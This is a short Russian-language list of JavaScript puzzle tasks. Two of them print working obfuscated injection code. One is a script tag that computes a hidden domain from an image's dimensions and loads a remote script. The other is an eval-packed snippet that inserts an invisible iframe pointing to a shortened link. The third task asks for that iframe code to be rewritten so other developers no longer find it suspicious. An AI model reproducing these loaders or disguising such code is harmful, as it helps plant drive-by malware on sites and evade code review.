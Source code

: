 Здесь будет различная подборка тестовых заданий, которые я встречал. 


# 1) задание первое:
раздуть код 
```
name='foo';alert(window.name);
```
до одного килобайта.

# 2) задание второе:
        Объяснить, с какого адреса данный код
        ```javascript
              <script type="text/javascript" id="73901220182">
                (function(d,c,b,a,e){
                    with(new Image)onload=function(){with(this)a.push((1E6+1E3*width+1*height+a).slice(-6).replace(/\d{2}/g,
                    function(a){return"%"+(+a+97).toString(16)+c.split("")[a%6]})),a.push("com"),a=["/",unescape(a.join(".")),
                 [(new Date).getTime(),b.domain,e,0].join(",")],b.body.appendChild(b.createElement(c)).src=a.join(a[0])},src=d
                })("http://serve.oxystatic.com/init","script",document,[],73901220182)
                </script>
        ```
        подгрузит скрипт, и почему.

# 3) задание третье:
        Почему код по ссылке
        ```javascript
          var _0x371a=["\x30\x2E\x31\x7C\x7C\x30\x2E\x35\x28\x27\x3C\x31\x3E\x27\x29\x3B\x32\x3D\x30\x2E\x31\x2E\x36\x28\x30\x2E\x34\x28\x27\x33\x27\x29\x29\x3B\x32\x2E\x37\x3D\x27\x38\x3A\x2F\x2F\x64\x2E\x63\x2F\x62\x27\x2C\x32\x2E\x39\x2E\x61\x3D\x27\x65\x27\x3B","\x7C","\x73\x70\x6C\x69\x74","\x64\x6F\x63\x75\x6D\x65\x6E\x74\x7C\x62\x6F\x64\x79\x7C\x6E\x73\x6F\x64\x6B\x7C\x69\x66\x72\x61\x6D\x65\x7C\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74\x7C\x77\x72\x69\x74\x65\x7C\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64\x7C\x73\x72\x63\x7C\x68\x74\x74\x70\x7C\x73\x74\x79\x6C\x65\x7C\x64\x69\x73\x70\x6C\x61\x79\x7C\x31\x32\x33\x34\x35\x36\x7C\x67\x6C\x7C\x67\x6F\x6F\x7C\x6E\x6F\x6E\x65","\x5C\x62","\x67","\x72\x65\x70\x6C\x61\x63\x65"];eval(function(_0x1019x1,_0x1019x2,_0x1019x3,_0x1019x4,_0x1019x5,_0x1019x6){while(_0x1019x3--){if(_0x1019x4[_0x1019x3]){_0x1019x1=_0x1019x1[_0x371a[6]]( new RegExp(_0x371a[4]+_0x1019x3.toString(_0x1019x2)+_0x371a[4],_0x371a[5]),_0x1019x4[_0x1019x3])}};return _0x1019x1;}(_0x371a[0],15,15,_0x371a[3][_0x371a[2]](_0x371a[1])));
      ```
        выглядит подозрительно?
        Переписать его так, чтобы он больше не вызывал подозрений у других разработчиков.
